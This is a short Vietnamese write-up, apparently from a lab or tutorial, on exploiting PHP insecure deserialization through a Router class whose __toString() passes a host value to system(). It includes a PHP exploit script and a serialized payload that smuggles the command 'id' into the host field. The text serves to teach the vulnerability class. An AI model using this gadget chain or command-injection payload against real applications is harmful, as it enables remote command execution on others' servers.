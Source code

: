 Do dữ liệu không tin cậy (untrusted data) rơi vào trong quá trình deserialize ở chức năng `load file` ở đoạn mã: `$value = unserialize($value);` và trong chương trình có sẵn class `Router` chứa một sink nguy hiểm trong PHP là `system()` kết hợp với magic method `__toString()` sẽ tự động được gọi khi đối tượng được hiển thị dưới dạng một chuỗi cho nên trong trường hợp này kẻ tấn công có thể kiểm soát luồng thực thi của chương trình để bắt chương trình thực hiện câu lệnh của hệ điều hành.

Dưới đây là đoạn mã exploit chương trình trên:

```php
<?php
# STEP 1: Create class Router
class Router
{
    public $host;

    public function __construct($host)
    {
        $this->host = $host;
    }

    public function __toString()
    {
        return system("ping " . $this->host);
    }
}

# STEP 2: Create object Router and manipulate property
$payload = new Router("8.8.8.8; id");

# STEP 3: Generate serialize data
echo serialize($payload);
```

➡ Payload: `0|O:6:"Router":1:{s:4:"host";s:11:"8.8.8.8; id";}`.

Và đây là kết quả khi ta upload file chứa payload lên hệ thống.

![alt text](../assets/images/php-deserialization/id_command.png)
